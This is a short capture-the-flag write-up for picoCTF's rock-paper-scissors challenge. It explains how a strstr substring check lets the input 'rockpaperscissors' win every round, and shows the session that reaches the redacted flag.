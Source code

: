 # RPS

## Description 

Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.

Connect to the program with netcat:

```bash
nc saturn.picoctf.net 51420
```

The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/442/game-redacted.c).


## Exploit

The exploit to this program can be explained by looking at this condition:

```c
char player_turn[100];
//..
int r = tgetinput(player_turn, 100);
//..
int computer_turn = rand() % 3;

//..
if (strstr(player_turn, loses[computer_turn])){
    //..
}
```

What `strstr` does is look for the first occurrence of the result of `loses[computer_turn]` inside `player_turn`.

`computer_turn` is a random number between 0 and 2.

But `player_turn` is our input.

So we can basically pass the following string into the program to ensure that there will always be a match in the condition:

```bash
Please make your selection (rock/paper/scissors):
rockpaperscissors
You played: rockpaperscissors
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
You played: rockpaperscissors
The computer played: paper
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1

...
Please make your selection (rock/paper/scissors):
rockpaperscissors
You played: rockpaperscissors
The computer played: scissors
You win! Play again?
Congrats, here's the flag!
[REDACTED]
```